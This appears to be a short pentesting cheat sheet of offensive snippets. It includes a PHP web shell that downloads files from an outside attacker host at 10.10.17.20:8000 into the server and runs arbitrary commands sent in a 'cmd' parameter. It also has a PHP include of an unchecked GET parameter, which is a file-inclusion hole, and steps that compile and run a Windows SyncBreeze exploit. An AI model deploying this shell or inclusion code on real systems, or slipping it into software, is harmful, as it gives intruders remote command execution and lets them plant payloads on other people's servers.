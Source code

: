 - RCE and RFI via PHP 
  ```php
    <?php 
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.17.20:8000/" . $_REQUEST['fupload']));
      }
      if (isset($_REQUEST['cmd'])){
        echo system($_REQUEST["cmd"]);
      }	
    ?>
  ```
- mkt script, to create a pentesting folder environment
  ```bash
    #!/bin/bash
    if [[ $# -eq 1 ]]; then
      mkdir -p $1/{nmap,content,exploits,scripts}
      exit 0
    else
      echo "The name of the folder is needed"
      exit 1
    fi
  ```
- Execute PHP from another file
  ```php
  <?php
      $file = $_GET["file"];
      include $file; ?>
    ```

- Compile **C** binaries with Windows dependences with **mingw-64**
  ```bash
  i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
  ```
  
- Run cross-compiled binary (binary compiled to run in Windows):
  ```bash
  wine exploit.exe
  ```

  
